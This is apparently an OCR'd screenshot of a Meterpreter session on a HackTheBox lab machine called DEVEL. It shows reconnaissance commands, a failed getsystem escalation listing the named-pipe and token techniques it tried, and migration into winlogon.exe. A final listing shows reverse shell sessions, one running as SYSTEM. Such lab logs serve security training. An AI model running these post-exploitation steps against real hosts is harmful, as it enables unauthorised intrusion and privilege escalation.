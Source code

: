 meterpreter > sysinfo 
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 

meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter >

meterpreter > getsid
Server SID: S-1-5-82-2971860261-2701350812-2118117159-340795515-2183480550
meterpreter >

meterpreter > getsystem 
[-] priv_elevate_getsystem: Operation failed: 1726 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
meterpreter >

meterpreter > getpid
Current pid: 1572
meterpreter >

meterpreter > migrate 432
[*] Migrating from 1572 to 432...
...
[*] Migration completed successfully.
meterpreter > 
meterpreter > getpid
Current pid: 432
meterpreter >

meterpreter > ps w3
Filtering on 'w3'

Process List
============

 PID   PPID  Name      Arch  Session  User             Path
 ---   ----  ----      ----  -------  ----             ----
 1572  1600  w3wp.exe  x86   0        IIS APPPOOL\Web  c:\windows\system32\inetsrv\w3wp.exe

meterpreter > ps win
Filtering on 'win'

Process List
============

 PID  PPID  Name          Arch  Session  User  Path
 ---  ----  ----          ----  -------  ----  ----
 376  304   wininit.exe
 432  368   winlogon.exe  x86   1              C:\Windows\system32\winlogon.exe

meterpreter > ps -S winlogon
Filtering on 'winlogon'

Process List
============

 PID  PPID  Name          Arch  Session  User  Path
 ---  ----  ----          ----  -------  ----  ----
 432  368   winlogon.exe  x86   1              C:\Windows\system32\winlogon.exe


msf6 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL      10.10.16.52:1234 -> 10.10.10.5:49456 (10.10.10.5)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DEVEL  10.10.16.52:1234 -> 10.10.10.5:49453 (10.10.10.5)